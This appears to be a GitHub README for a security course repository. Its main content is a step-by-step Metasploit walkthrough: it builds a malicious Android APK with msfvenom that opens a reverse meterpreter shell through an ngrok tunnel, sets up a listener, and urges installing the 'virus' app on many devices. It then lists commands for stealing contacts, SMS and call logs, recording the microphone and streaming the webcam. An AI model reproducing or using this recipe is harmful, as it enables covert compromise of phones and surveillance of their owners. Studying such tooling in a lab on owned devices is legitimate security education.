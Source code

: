 # LINUX GUIDE
# Hacking-and-Patching
The 3rd course of the fundamentals of computer and network security specializations. Hacking and patching, it is a short course title, but it says it all. This repository explains how to hack devices with command injection vulnerability.

# 1. SCRCPY MODULE
Using the scrcpy module is quite easy but still brainstorming on it additional functions
  # STEPS:
  1. Install scrcpy: use the command 'apt-get install scrcpy'
  2. Enable developer mode on the android to be coonected to the PC
  3. Enable USB Debugging 
  4. Connect the USB cord to the PC
  5. In your linux VM enable connection to the VM
  6. Type 'scrcpy' after successful connection to the VM and you should see your phone screen displayed on your VM

# 2. METASPLOIT FRAMEWORK
Knowledge is power, especially when it’s shared. A collaboration between the open source community and Rapid7, Metasploit helps security teams do more than just verify vulnerabilities, manage security assessments, and improve security awareness; it empowers and arms defenders to always stay one step (or two) ahead of the game.
  # ANDROID HACKING: using NGROK
  First make sure your antivirus does not interfere with your machine 
  1. download from link: https://ngrok.com/
  2. download the file and extract using 'sudo tar xvzf ngrok-stable-linux-amd64.tgz' in the directory where it was downloaded
  3. first sign-up to get an auth-token
  4. Then in your VM command line input: './ngrok authtoken <authtoken>'
  5. msfvenom --platform android -p android/meterpreter/reverse_tcp LHOST=4.tcp.ngrok.io LPORT=4444 R > /home/kali/Hacking/android-exploitation/virus.apk 
  
  Here:
  -p indicates a payload type
  android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
  LHOST is your local IP
  LPORT is your IP’s listening port
  /home/kali/Hacking/android-exploitation would give the output directly
  apk is the final malicious app
  If you navigate to the output path /home/kali/Hacking/android-exploitation, we’ll find the injected apk file
  
  6. We need to set a listener on our PC/server. If the target device installs and opens the “virus.apk” application, it’ll start sending a reverse connection to our listener.
  To create a listener using Metasploit, run these commands:
  7. Run 'msfconsole'
  8. use exploit/multi/handler
  9. set payload android/meterpreter/reverse_tcp
  10. set LHOST 4.tcp.ngrok.io
  11. set LPORT 5544
  12. exploit 
  
  install the 'apk' on the targetted device and open the app. If the user opens the app, it’ll send a connection to our listener and create a session. We can install the virus     app on many devices.
  To sell all sessions, run "background" command from the listener console. It’ll show all available connected devices sessions
  Available Commands
We can then enter help to see all the Android meterpreter commands.

I’m sharing some commands. Have a look:

  
      Command                  Description
  1. app_list--	              Show all installed applications
  2. app_install--	          Request to install apk file
  3. app_run--	              Start an application
  4. app_uninstall--	        Request to uninstall application
  5. dump_contacts--	        Get all contacts and save in our PC
  6. dump_calllog--	          Get call log and save in our PC
  7. dump_sms--	              Get all sms and save in our PC
  8. send_sms--	              Send sms to any number
  9. geolocacte--	            Current lat and long of the device
  10. record_mic--	          Sound recorder
  11. webcam_list--           Available cameras
  12. webcam_snap 1/2/3--	    Take photo by selecting camera
  13. webcam_stream 1/2/3--	  Open specific camera and live streaming

  
  
# Detecting Command Injection
The pdf "Commix: Detecting and exploiting command injection flaws.", is by Anastasios Stasinopoulos, Christoforos Ntantogian, Christos Xenakis from Department of Digital Systems, University of Piraeus.

